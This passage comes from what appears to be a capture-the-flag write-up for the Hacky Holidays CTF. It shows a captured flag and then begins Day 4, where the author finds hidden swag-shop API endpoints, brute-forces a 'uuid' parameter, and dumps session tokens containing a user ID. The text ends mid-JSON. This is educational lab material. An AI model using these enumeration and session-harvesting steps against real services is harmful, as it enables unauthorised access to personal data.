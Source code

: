 https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0=

```json
{
  "id": "eyJpZCI6MX0=",
  "name": "The Grinch",
  "rating": "Amazing in every possible way!",
  "flag": "flag{b705fb11-fb55-442f-847f-0931be82ed9a}"
}

```

3rd flag done: `flag{b705fb11-fb55-442f-847f-0931be82ed9a}`

---------------------------------------------------------------------------------------------------------------------------------------------------

**Day 4**

This time  a new Swag shop was added and our task was *"Get your Grinch Merch! Try and find a way to pull the Grinch's personal details from the online shop."*
 https://hackyholidays.h1ctf.com/swag-shop

{F1131112}

The shop has 3 items if we try to purchase any of them it will ask us to provide credentials which we dont have access to.
Looking at the burp history tab, we can see some reuqets has been made under the api endpoint.

https://hackyholidays.h1ctf.com/swag-shop/api/purchase
https://hackyholidays.h1ctf.com/swag-shop/api/login

The same we can find them from the source:

```javascript
$.getJSON("/swag-shop/api/stock")

$.post("/swag-shop/api/purchase", {
            id: $(this).attr("data-product-id")
        }
```

After doing some content discovery I found two more endpoints /user, /sessions
The user endpoint was showig an error in the response "Missing required fields", so I used Arjun tool to bruteforce parameters for this endpoint. 

`uuid` was the valid parameter which came up in the results:

https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=

The response to this endpoint was: *"Could not find matching uuid"*, so we need to pass an valid uuid here.Looking at the 2nd endpoint /sessions, the reponse was containing jwt tokens there were around 8 of them.

https://hackyholidays.h1ctf.com/swag-shop/api/sessions

```json
{
  "sessions": [
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=",
    "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
```